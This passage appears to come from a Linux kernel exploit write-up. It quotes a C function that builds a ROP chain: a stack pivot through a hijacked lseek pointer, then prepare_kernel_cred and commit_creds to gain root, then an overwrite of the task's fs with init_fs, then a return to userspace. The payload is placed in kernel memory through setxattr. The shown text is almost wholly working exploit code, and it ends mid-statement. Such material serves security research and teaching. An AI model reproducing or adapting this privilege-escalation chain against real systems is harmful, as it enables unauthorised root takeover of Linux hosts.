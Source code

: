 - [exploit.c#L756](./exploit.c#L756):

```c
uint64_t prepare_rop_chain_and_fops_table(struct simple_xattr_leak_result *r)
{
  uint8_t buf[8192] = {};
  uint64_t *lseek = (uint64_t*)(&buf[0]);

  /* After the exploit get RIP control with lseek(int fd, off_t offset, int whence), RBP register have value equal to offset.
  So i set lseek to this stack pivot gadget:
    mov rsp, rbp
    pop rbp
    ret
  */
  *lseek = mov_rsp_rbp_pop_rbp_ret;

  /* Gadget reference:
  pop_rdi_ret: pop rdi; ret
  pop_rcx_ret: pop rcx; ret
  mov_rdi_rax_rep_ret: mov rdi, rax; rep [do some mov here i forgot to save]; ret
  add_rax_rcx_ret: add rax, rcx; ret
  pop_rsi_ret: pop rsi; ret
  mov_qword_ptr_rax_rsi_ret: mov qword ptr [rax], rsi; ret
  */
  uint64_t *rop = (uint64_t*)(&buf[2048]); // 2048 is fine. Avoid stack underflow and overwrite heap data when calling function in ROP gadget which sometime cause random crash.
  int idx = 0;
  rop[idx++] = 0; // dummy value for the `pop rbp` in stack pivot gadget describe above

  rop[idx++] = pop_rdi_ret; // RDI = &init_task
  rop[idx++] = init_task;
  rop[idx++] = prepare_kernel_cred; // prepare_kernel_cred(init_task). After this, RAX will point to `struct cred` represent root. I will call this `root_cred`.
  rop[idx++] = pop_rcx_ret; // RCX = 0
  rop[idx++] = 0;
  rop[idx++] = mov_rdi_rax_rep_ret; // RDI = root_cred
  rop[idx++] = commit_creds; // commit_creds(root_cred). After this, the exploit process have root permission.

  rop[idx++] = pop_rdi_ret; // RDI = exploit_process_pid
  rop[idx++] = getpid();
  rop[idx++] = find_task_by_vpid; // find_task_by_vpid(exploit_process_pid). After this, RAX will point to `struct task_struct` represent the exploit process. I will call this `task_struct` exploit_task
  rop[idx++] = pop_rcx_ret; // RCX = fs_offset_in_task_struct
  rop[idx++] = TASK_STRUCT_FS_OFFSET;
  rop[idx++] = add_rax_rcx_ret; // RAX = &(exploit_task->fs)
  rop[idx++] = pop_rsi_ret; // RSI = &init_fs
  rop[idx++] = init_fs;
  rop[idx++] = mov_qword_ptr_rax_rsi_ret; // exploit_task->fs = init_fs

  rop[idx++] = swapgs_restore_regs_and_return_to_usermode_nopop; // return to userspace.
  rop[idx++] = 0; // dummy
  rop[idx++] = 0; // dummy
  rop[idx++] = (uint64_t)win;
  rop[idx++] = user_cs;
  rop[idx++] = user_rflags;
  rop[idx++] = user_rsp & 0xffffffffffffff00;
  rop[idx++] = user_ss;

  // Allocate `struct simple_xattr` with `value` field contain ROP gadget and fake lseek address
  if (setxattr(r->attrs[0]->path, "security.lseek_rop", buf, KMALLOC_8192 - SIMPLE_XATTR_STRUCT_SIZE, 0) < 0) {
```